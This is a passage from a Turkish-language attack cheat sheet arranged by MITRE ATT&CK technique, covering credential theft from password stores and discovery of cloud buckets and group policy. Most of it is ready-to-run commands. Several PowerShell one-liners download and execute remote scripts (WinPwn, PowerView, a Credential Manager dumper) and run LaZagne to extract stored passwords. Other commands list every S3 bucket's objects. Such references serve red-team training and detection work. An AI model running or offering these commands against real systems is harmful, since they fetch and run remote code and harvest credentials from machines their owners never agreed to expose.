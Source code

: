 2. **Credentials from Password Stores (T1555)**
    
    Örnek komut:
    
    ```powershell
    IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
    ```
    
    ```powershell
    IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
    ```
    
    ```powershell
    $S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
    iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
    lazagnemodule -consoleoutput -noninteractive
    ```
    

---

## **Discovery (TA0007)**

Erişilen sistem ve local ağda keşif yapılır. Keşif, saldırganın sistem ve iç ağ hakkında bilgi edinmek için kullanabileceği tekniklerden oluşur. Bu teknikler, düşmanların nasıl hareket edeceklerine karar vermeden önce ortamı gözlemlemelerine ve kendilerini yönlendirmelerine yardımcı olur. Ayrıca düşmanların neleri kontrol edebileceklerini ve giriş noktalarının etrafında neler olduğunu keşfederek mevcut hedeflerine nasıl fayda sağlayabileceklerini keşfetmelerini sağlar.

1. **Cloud Storage Object Discovery (T1619)**
    
    Örnek komut:
    
    ```bash
    for bucket in "$(aws s3 ls | cut -d " " -f3)"; do aws s3api list-objects-v2 --bucket $bucket --output text; done
    ```
    
2. **Group Policy Discovery (T1615)**
    
    Örnek komut:
    
    ```bash
    gpresult /z
    ```
    
    ```bash
    powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
    ```
    
    ```bash
    $S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
    iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
    GPOAudit -noninteractive -consoleoutput
    ```
    